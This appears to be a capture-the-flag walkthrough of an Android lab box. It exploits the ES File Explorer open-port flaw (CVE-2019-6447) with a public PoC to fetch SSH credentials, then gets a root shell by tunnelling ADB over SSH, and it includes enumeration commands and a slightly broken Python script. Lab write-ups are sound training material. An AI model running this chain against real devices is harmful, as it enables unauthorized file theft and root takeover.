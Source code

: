 ### Box Info
OS: Android
IP: 10.10.10.247

## Part 1 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1
+python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg
+ File gives UN && PW

### Step 2
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part 2

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket # socket\
import subprocess  # Subprocess\
import pyautogui  # PyAutoGui\
import time  # Time\
\
def connection_function(host, port):\
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
    password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
    print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
